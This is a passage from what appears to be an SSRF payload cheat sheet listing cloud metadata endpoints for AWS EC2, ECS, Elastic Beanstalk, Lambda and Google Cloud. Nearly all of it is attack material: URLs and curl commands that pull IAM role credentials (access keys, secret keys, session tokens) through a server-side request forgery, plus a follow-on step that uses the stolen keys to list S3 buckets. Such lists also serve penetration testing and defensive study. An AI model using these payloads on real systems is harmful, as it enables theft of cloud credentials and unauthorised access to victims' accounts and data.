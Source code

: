 E.g2: Flaws challenge - `http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws/`

### SSRF URL for AWS ECS

If you have an SSRF with file system access on an ECS instance, try extracting `/proc/self/environ` to get UUID.

```powershell
curl http://169.254.170.2/v2/credentials/<UUID>
```

This way you'll extract IAM keys of the attached role

### SSRF URL for AWS Elastic Beanstalk

We retrieve the `accountId` and `region` from the API.

```powershell
http://169.254.169.254/latest/dynamic/instance-identity/document
http://169.254.169.254/latest/meta-data/iam/security-credentials/aws-elasticbeanorastalk-ec2-role
```

We then retrieve the `AccessKeyId`, `SecretAccessKey`, and `Token` from the API.

```powershell
http://169.254.169.254/latest/meta-data/iam/security-credentials/aws-elasticbeanorastalk-ec2-role
```

![notsosecureblog-awskey](https://www.notsosecure.com/wp-content/uploads/2019/02/aws-cli.jpg)

Then we use the credentials with `aws s3 ls s3://elasticbeanstalk-us-east-2-[ACCOUNT_ID]/`.


### SSRF URL for AWS Lambda

AWS Lambda provides an HTTP API for custom runtimes to receive invocation events from Lambda and send response data back within the Lambda execution environment.

```powershell
http://localhost:9001/2018-06-01/runtime/invocation/next
$ curl "http://${AWS_LAMBDA_RUNTIME_API}/2018-06-01/runtime/invocation/next"
```

Docs: https://docs.aws.amazon.com/lambda/latest/dg/runtimes-api.html#runtimes-api-next

### SSRF URL for Google Cloud

:warning: Google is shutting down support for usage of the **v1 metadata service** on January 15.

Requires the header "Metadata-Flavor: Google" or "X-Google-Metadata-Request: True"

```powershell
http://169.254.169.254/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/
http://metadata/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/hostname
http://metadata.google.internal/computeMetadata/v1/instance/id
http://metadata.google.internal/computeMetadata/v1/project/project-id
```

